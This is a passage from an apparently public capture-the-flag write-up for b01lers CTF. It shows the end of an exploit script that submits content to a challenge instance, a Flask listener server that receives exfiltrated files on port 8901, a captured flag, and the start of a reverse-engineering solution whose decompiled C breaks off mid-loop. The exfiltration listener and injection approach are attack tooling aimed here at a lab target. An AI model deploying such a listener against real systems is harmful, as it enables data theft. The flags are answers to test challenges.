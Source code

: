 ```python
print(command)
# os.system(command) 

url = "https://threecityelf-53b6fe52e327b2cb.instancer.b01lersc.tf/pentest_submitted_flags"

json = {
    'content': content
}
r = requests.post(url, json=json)
print(r.text)
```


server.py 
```python
from flask import Flask, request
import os

app = Flask(__name__)

UPLOAD_FOLDER ='uploads'
app.config['UPLOAD_FOLDER'] = UPLOAD_FOLDER
@app.route('/', methods=["POST"])
def xfil():
    try:
        file = request.files['data']
        filename = file.filename
        file.save(os.path.join(app.config['UPLOAD_FOLDER'], filename))
    except Exception as e:
        return str(e)
    return 'Success'
if __name__ == '__main__':
    app.run(host='0.0.0.0',port=8901)
```

To view the flag, I just opened the uploaded file under `/uploads` on the listener server

{{< image src="image-1.png" caption="flag.png" width="80%">}}
![Alt text](images/image-1.png)

flag: **bctf{Lucky_you_I_did_not_code_this_stuff_in_Ruby_lasudkjklhdsfkhjkae}**

---
# rev
## rev/Annnnnnny Second Now
Analyze in ghidra and learn that the `super_optimized_calculation` is not so optimized. It just returns the nth fibonacci number

We can just hardcode it and run it will print the flag

```c
#include <stdio.h>
int main{
    unsigned long long uVar1;
    // ....
    local_78[20] = 0xc1;
    local_78[21] = 0x161;
    local_78[22] = 0x10d;
    local_78[23] = 0x1e7;
    local_78[24] = 0xf5;
    // uVar1 = super_optimized_calculation(0x5a);
    uVar1 = 2880067194370816120; // 0x5a/90th fibonacci number
    for (local_84 = 0; local_84 < 0x19; local_84 = local_84 + 1) {
        putc((int)(uVar1 % (unsigned long long)local_78[(int)local_84]),stdout);
```